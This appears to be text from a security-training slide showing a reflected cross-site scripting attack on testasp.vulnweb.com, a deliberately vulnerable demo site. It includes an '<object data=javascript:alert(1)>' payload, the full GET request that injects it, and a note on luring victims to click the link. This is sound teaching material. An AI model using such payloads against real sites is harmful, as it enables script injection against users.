

Payload : <object data=javascript:alert(1)>

GET /Search.asp?tfSearch=%3cobject%20data%3djavascript%3aalert(1)%3eabcd HTTP/1.1
Host: testasp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://testasp.vulnweb.com/Search.asp
Cookie: ASPSESSIONIDSSTDQCSQ=PADHAAPCIPAPMKEJEEJBMFAC
Upgrade-Insecure-Requests: 1
As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.